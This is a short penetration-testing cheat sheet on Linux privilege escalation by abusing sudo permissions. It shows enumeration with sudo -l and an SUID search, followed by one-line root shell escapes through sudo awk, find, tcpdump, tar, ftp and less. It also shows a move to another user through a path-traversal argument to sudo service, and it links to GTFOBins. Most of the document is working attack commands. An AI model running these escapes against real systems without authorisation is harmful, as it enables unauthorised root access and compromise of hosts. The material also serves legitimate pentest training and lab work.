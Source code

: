 # Sudo Trickery

## Enumerating Sudo Permissions

### Checking Sudo-Related Permissions

```shell-session
$ sudo -l
[sudo] password for joe:
Matching Defaults entries for joe on debian-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User joe may run the following commands on debian-privesc:
    (ALL) (ALL) /usr/bin/crontab -l, /usr/sbin/tcpdump, /usr/bin/apt-get
```

### Find all SUID Binaries

```shell-session
$ find / -perm -4000 2>/dev/null #Find all SUID binaries
```

### Sneaking Commands at the end of a command

Sometimes we can slide in a shell command at the end of a command

```shell-session
$ sudo awk 'BEGIN {system("/bin/sh")}'
$ sudo find /etc -exec sh -i \;
$ sudo tcpdump -n -i lo -G1 -w /dev/null -z ./runme.sh
$ sudo tar c a.tar -I ./runme.sh a
$ ftp>!/bin/sh
$ less>! <shell_comand>
```



## Running as other user

If there is NOPASSWD sudo permissions we can access with:

```shell-session
$ sudo -l
Matching Defaults entries for max on so-simple:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User max may run the following commands on so-simple:
    (steven) NOPASSWD: /usr/sbin/service

```

We can run as steven with the following:

```shell-session
max@box:~$ sudo -u steven /usr/sbin/service ../../bin/bash
steven@box:/$ 

```

### GTFOBins

Check GTFOBins - a list of binaries that can be exploited to bypass local restrictions.

{% embed url="https://gtfobins.github.io/" %}

***

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid" %}
